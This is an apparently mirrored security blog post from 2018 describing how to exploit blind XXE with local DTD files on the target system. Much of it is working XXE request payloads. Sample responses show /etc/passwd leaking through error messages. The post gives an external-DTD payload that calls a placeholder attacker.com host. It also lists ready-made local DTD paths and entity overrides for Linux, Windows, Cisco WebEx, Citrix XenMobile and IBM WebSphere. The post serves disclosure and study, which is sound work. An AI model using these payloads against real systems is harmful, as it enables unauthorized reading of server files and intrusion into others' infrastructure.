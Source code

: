 # [Exploiting XXE with local DTD files](https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/)

https://mohemiv.com/all/exploiting-xxe-with-local-dtd-files/

This little technique can force your blind XXE to output anything you want!

![Preview](Exploiting XXE with local DTD files/preview.png)

## Why do we have trouble exploiting XXE in 2k18?

Imagine you have an XXE. External entities are supported, but the server’s response is always empty. In this case you have two options: **error-based** and **out-of-band** exploitation.

Consider this error-based example:

**Request**
```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Response**
```
java.io.FileNotFoundException: /nonexistent/  
**root:x:0:0:root:/root:/bin/bash  
bin:x:1:1:bin:/bin:/usr/bin/nologin  
daemon:x:2:2:daemon:/:/usr/bin/nologin  **
(No such file or directory)
```

**Contents of ext.dtd**

    <!ENTITY % file SYSTEM "file:///etc/passwd">
    <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
    %eval;
    %error;

See? You are using an external server for payload delivery. What can you do if there is a firewall between you and the target server? Nothing!

What if we just put external DTD content directly in the DOCTYPE? Some errors will always appear:


**Request**

    <?xml version="1.0" ?>
    <!DOCTYPE message [
        <!ENTITY % file SYSTEM "file:///etc/passwd">
        <!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
        %eval;
        %error;
    ]>
    <message></message>

**Response**

    Internal Error: SAX Parser Error. Detail:  
    The parameter entity reference “%file;” cannot occur within markup in the internal subset of the DTD.
    

External DTD allows us to include one entity inside the second, but it is prohibited in the internal DTD.

## What can we do with internal DTD?

To use external DTD syntax in the internal DTD subset, you can bruteforce a local dtd file on the target host and redefine some parameter-entity references inside it:


**Request**

    <?xml version="1.0" ?>
    <!DOCTYPE message [
        <!ENTITY % local_dtd SYSTEM "file:///opt/IBM/WebSphere/AppServer/properties/sip-app_1_0.dtd">

        <!ENTITY % condition 'aaa)>
            <!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
            <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
            &#x25;eval;
            &#x25;error;
            <!ELEMENT aa (bb'>

        %local_dtd;
    ]>
    <message>any text</message>

**Response**

    java.io.FileNotFoundException: /nonexistent/  
    <span style="background: #D9FFAD;">root:x:0:0:root:/root:/bin/bash  
    bin:x:1:1:bin:/bin:/usr/bin/nologin  
    daemon:x:2:2:daemon:/:/usr/bin/nologin  
    </span>  
    (No such file or directory)

**Contents of sip-app_1_0.dtd**

    …
    <!ENTITY % condition "and | or | not | equal | contains | exists | subdomain-of">
    <!ELEMENT pattern (%condition;)>
    …

It works because all XML entities are constant. If you define two entities with the same name, only the first one will be used.

## How can we find a local dtd file?

Nothing is easier than enumerating files and directories. Below are a few more examples of successful applications of this trick:  

### Custom Linux System

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
    <!ENTITY % ISOamsa 'Your DTD code'>
    %local_dtd;

### Custom Windows System

    <!ENTITY % local_dtd SYSTEM "file:///C:\Windows\System32\wbem\xml\cim20.dtd">
    <!ENTITY % SuperClass '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

Thanks to @Mike_n1 from Positive Technologies for sharing this path of always-existing Windows DTD file.

### Cisco WebEx

### 

    <!ENTITY % local_dtd SYSTEM "file:///usr/share/xml/scrollkeeper/dtds/scrollkeeper-omf.dtd">
    <!ENTITY % url.attribute.set '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

### Citrix XenMobile Server

    <!ENTITY % local_dtd SYSTEM "jar:file:///opt/sas/sw/tomcat/shared/lib/jsp-api.jar!/javax/servlet/jsp/resources/jspxml.dtd">
    <!ENTITY % Body '>Your DTD code<!ENTITY test "test"'>
    %local_dtd;

### Custom Multi-Platform IBM WebSphere Application

    <!ENTITY % local_dtd SYSTEM "./../../properties/schemas/j2ee/XMLSchema.dtd">
    <!ENTITY % xs-datatypes 'Your DTD code'>
    <!ENTITY % simpleType "a">
    <!ENTITY % restriction "b">
    <!ENTITY % boolean "(c)">
    <!ENTITY % URIref "CDATA">
    <!ENTITY % XPathExpr "CDATA">
    <!ENTITY % QName "NMTOKEN">
    <!ENTITY % NCName "NMTOKEN">
    <!ENTITY % nonNegativeInteger "NMTOKEN">
    %local_dtd;

## Timeline

    01/01/2016 — Discovering the technique
    12/12/2018 — Writing the article :D
    13/12/2018 — Full disclosure
